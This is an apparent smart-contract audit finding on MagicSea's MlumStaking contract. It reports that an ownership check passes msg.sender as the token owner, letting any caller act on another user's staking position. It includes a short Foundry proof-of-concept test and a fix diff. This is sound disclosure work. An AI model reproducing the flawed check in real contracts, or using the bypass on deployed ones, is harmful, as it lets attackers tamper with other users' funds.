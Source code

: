 Glorious Garnet Stallion

High

# malicious can by pass the operator or owner check

## Summary
`_requireOnlyOperatorOrOwnerOf` function use `msg.sender` instead of tokenId owner lead to malicious by pass the `OnlyOperatorOrOwnerOf` check.

## Vulnerability Detail
from code [link](https://github.com/sherlock-audit/2024-06-magicsea/blob/main/magicsea-staking/src/MlumStaking.sol#L140-L143)
```soldiity
 function _requireOnlyOperatorOrOwnerOf(uint256 tokenId) internal view {
    // isApprovedOrOwner: caller has no rights on token
    require(ERC721Upgradeable._isAuthorized(msg.sender, msg.sender, tokenId), "FORBIDDEN");//@audit @<
}
```

OZ code `ERC721Upgradeable.sol`
```solidity
  function _isAuthorized(address owner, address spender, uint256 tokenId) internal view virtual returns (bool) {
      return
          spender != address(0) &&
          (owner == spender || isApprovedForAll(owner, spender) || _getApproved(tokenId) == spender);
  }
```
from above code we can the first parameter of `_isAuthorized` is the owner of tokenID, however the protocol use `msg.sender` which lead to `owner == spender` check always return true.


test:
```solidity
    function testByPassOperaterOrOwnerCheck() public {
        _stakingToken.mint(BOB, 2 ether);
        _stakingToken.mint(ALICE, 2 ether);

        //alice create position.
        vm.startPrank(ALICE);
        _stakingToken.approve(address(_pool), 1 ether);
        _pool.createPosition(1 ether, 1 days);
        vm.stopPrank();

        //eq tokenID owner
        assertEq(_pool.ownerOf(1),ALICE);

        vm.startPrank(BOB);
        _stakingToken.approve(address(_pool), 1 ether);
        _pool.addToPosition(1, 1 ether);
        vm.stopPrank();
    }
```

## Impact
malicious can by pass the operator or owner check

## Code Snippet
https://github.com/sherlock-audit/2024-06-magicsea/blob/main/magicsea-staking/src/MlumStaking.sol#L140-L143
## Tool used
Foundry
Manual Review

## Recommendation
```diff
     /**
      * @dev Check if a userAddress has privileged rights on a spNFT
      */
     function _requireOnlyOperatorOrOwnerOf(uint256 tokenId) internal view {
         // isApprovedOrOwner: caller has no rights on token
-        require(ERC721Upgradeable._isAuthorized(msg.sender, msg.sender, tokenId), "FORBIDDEN");
+        require(ERC721Upgradeable._isAuthorized(_ownerOf(tokenId), msg.sender, tokenId), "FORBIDDEN");//@audit @<
     }
```